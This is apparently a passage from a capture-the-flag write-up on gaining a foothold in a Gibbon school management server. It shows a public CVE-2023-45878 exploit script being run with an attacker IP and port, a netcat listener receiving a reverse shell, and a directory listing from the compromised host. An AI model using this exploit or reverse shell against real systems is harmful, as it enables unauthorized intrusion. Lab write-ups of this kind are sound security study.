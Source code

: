 So it appears to be a Gibbon Service (which is an open source school management platform).
This specific version of it (v25.0.0.), appears to be vulnerable to multiple CVEs , but specifically 
```CVE-2023-45878``` stands out as it allows RCE .
# Foothold

So if found this exploit: 
https://github.com/0xyy66/CVE-2023-45878_to_RCE/blob/main/CVE-2023-45878.sh

lets run it:
```shell
./CVE-2023-45878.sh 10.10.14.158 9999 10.10.11.60:80
```

and we successfully got rev shell as ```w.webservice```
```shell
└─# nc -lvnp 9999                      
listening on [any] 9999 ...
connect to [10.10.14.158] from (UNKNOWN) [10.10.11.60] 63899
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\Gibbon-LMS>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp\htdocs\Gibbon-LMS

05/18/2025  05:54 PM    <DIR>          .
10/29/2024  07:28 AM    <DIR>          ..
01/20/2023  07:04 AM               634 .htaccess
05/18/2025  05:54 PM             7,168 7zip.exe
01/20/2023  07:04 AM           197,078 CHANGEDB.php
01/20/2023  07:04 AM           103,023 CHANGELOG.txt
01/20/2023  07:04 AM             2,972 composer.json
01/20/2023  07:04 AM           294,353 composer.lock
10/11/2024  08:15 PM             1,307 config.php
01/20/2023  07:04 AM             3,733 error.php
01/20/2023  07:04 AM             1,608 export.php
01/20/2023  07:04 AM            32,988 favicon.ico
01/20/2023  07:04 AM             2,277 fullscreen.php
01/20/2023  07:04 AM            57,535 functions.php
01/20/2023  07:04 AM             5,610 gibbon.php
10/29/2024  07:27 AM           493,211 gibbon.sql
01/20/2023  07:04 AM         1,254,473 gibbon_demo.sql
05/18/2025  05:54 PM                33 gibbon_myconfig.php
01/20/2023  07:04 AM    <DIR>          i18n
01/20/2023  07:04 AM            31,228 index.php
01/20/2023  07:04 AM             2,356 indexExport.php
01/20/2023  07:04 AM               813 indexFindRedirect.php
01/20/2023  07:04 AM            12,327 index_fastFinder_ajax.php
01/20/2023  07:04 AM             2,579 index_notification_ajax.php
01/20/2023  07:04 AM             2,767 index_notification_ajax_alarm.php
01/20/2023  07:04 AM             1,690 index_notification_ajax_alarmConfirmProcess.php
01/20/2023  07:04 AM             1,647 index_notification_ajax_alarmProcess.php
01/20/2023  07:04 AM             1,245 index_notification_ajax_alarm_tickUpdate.php
01/20/2023  07:04 AM             2,142 index_parentPhotoDeleteProcess.php
01/20/2023  07:04 AM             3,549 index_parentPhotoUploadProcess.php
01/20/2023  07:04 AM             2,046 index_tt_ajax.php
01/20/2023  07:04 AM    <DIR>          installer
01/20/2023  07:04 AM               753 keepAlive.php
01/20/2023  07:04 AM    <DIR>          lib
01/20/2023  07:04 AM            35,113 LICENSE
01/20/2023  07:04 AM             7,589 login.php
```